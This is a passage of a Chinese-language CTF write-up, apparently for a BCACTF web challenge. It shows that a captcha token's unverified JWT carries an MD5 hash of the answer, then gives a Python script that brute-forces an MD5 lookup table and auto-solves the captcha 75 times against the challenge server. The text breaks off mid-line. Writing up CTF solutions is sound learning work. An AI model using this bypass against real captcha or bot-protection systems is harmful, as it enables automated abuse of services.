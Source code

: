 看一下 captchaToken 發現裡面有以下資訊:

```json!
{
  "captchaId": "d2627387-eec2-44fc-892a-92b1c40cbddf",
  "routeId": "/",
  "challengeId": "f91a23894b14612ed980ecdfe03e55e8",
  "solved": 0,
  "total": 2,
  "done": false,
  "iat": 1718072915,
  "exp": 1718072975
}
```

其中 challengeId 看起來很像 md5，拿去 crack 看看，發現他就是該題的答案(!)

`f91a23894b14612ed980ecdfe03e55e8` -> JDCN

然後觀察一下所有題目圖片都是 `[a-zA-z]{4}` 所以不難建表，接下來寫個腳本自動跑 captcha:

```python!
import requests
import hashlib
import itertools
import string
import jwt

combinations = itertools.product(string.ascii_letters, repeat=4)
hash_dict = {}
for comb in combinations:
    original = "".join(comb)
    hash_obj = hashlib.md5(original.encode())
    hash_value = hash_obj.hexdigest()
    hash_dict[hash_value] = original


def token2cap(token):
    return jwt.decode(token, options={"verify_signature": False})


s = requests.Session()


url = "http://challs.bcactf.com:30477/captcha"

r = s.post(url, json={"routeId": "/flag"})
token = r.json()["captchaToken"]


for _ in range(75):
    r = s.post(
        url,
        json={
            "captchaToken": token,
            "word": hash_dict[token2cap(token)["challengeId"]],
        },
    )
    token = r.json()["captchaToken"]
    print(r.json()["solved"])


print(r.json())
print(s.cookies)

print(
```